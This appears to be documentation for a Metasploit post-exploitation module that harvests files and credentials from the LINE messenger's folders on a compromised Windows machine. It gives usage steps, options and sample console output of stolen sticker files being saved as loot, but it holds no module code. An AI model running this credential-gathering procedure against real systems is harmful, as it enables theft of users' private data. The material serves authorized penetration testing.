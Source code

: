 ## Module Description

This post-exploitation module gathers artifacts found on LINE related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/line
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054823_default_192.168.56.106_line24348280.png_031858.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line16188.png_166694.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line47976.png_270633.png

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf6 post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line24348280.png_472404.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line16188.png_355604.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line47976.png_481503.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3059\1\765251.png
[*] Line 765251.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line765251.png_881563.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3590\1\2872642.png
[*] Line 2872642.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line2872642.png_628173.png


[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
